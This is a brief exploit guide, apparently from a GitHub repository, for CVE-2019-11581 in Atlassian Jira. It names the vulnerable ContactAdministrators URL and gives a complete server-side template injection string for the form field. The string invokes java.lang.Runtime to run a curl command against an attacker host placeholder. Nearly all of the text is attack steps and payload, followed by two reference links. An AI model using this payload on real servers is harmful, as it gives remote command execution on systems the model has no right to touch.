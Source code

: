 ### Go to
```
https://<rhost>/secure/ContactAdministrators!default.jspa  
```

### Enter malicious string into form
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl https://<lhost>').waitFor()
```

### References
* https://thehackerish.com/jira-vulnerabilities-and-how-they-are-exploited-in-the-wild  
* https://github.com/kobs0N/CVE-2019-11581.git  

